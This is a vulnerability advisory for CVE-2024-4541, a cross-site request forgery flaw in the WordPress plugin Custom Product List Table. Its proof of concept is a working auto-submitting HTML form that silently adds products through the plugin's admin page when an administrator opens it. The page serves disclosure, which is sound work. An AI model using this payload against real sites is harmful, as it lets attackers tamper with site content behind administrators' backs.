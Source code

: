 ```yaml
---
layout: page
title: CVE-2024-4541
subtitle: Custom Product List Table <= 3.0.0 - Cross-Site Request Forgery
---
```

## Description
The Custom Product List Table plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 3.0.0. This is due to missing or incorrect nonce validation when modifying products. This makes it possible for unauthenticated attackers to add, delete, bulk edit, approve or cancel products via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 3.0.0

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / twitter.com/aillesim_ -->
  <body>
    <form action="http://[assets]/wp-admin/admin.php?page=ww_clt_add_form" method="POST">
      <input type="hidden" name="page" value="ww&#95;clt&#95;add&#95;form" />
      <input type="hidden" name="ww&#95;clt&#95;product&#95;title" value="eneriiii" />
      <input type="hidden" name="ww&#95;clt&#95;product&#95;desc" value="eneriiii" />
      <input type="hidden" name="ww&#95;clt&#95;product&#95;status" value="0" />
      <input type="hidden" name="ww&#95;clt&#95;product&#95;cat" value="" />
      <input type="hidden" name="ww&#95;clt&#95;featured&#95;product" value="0" />
      <input type="hidden" name="ww&#95;clt&#95;product&#95;save" value="Save" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/custom-product-list-table/custom-product-list-table-300-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4541





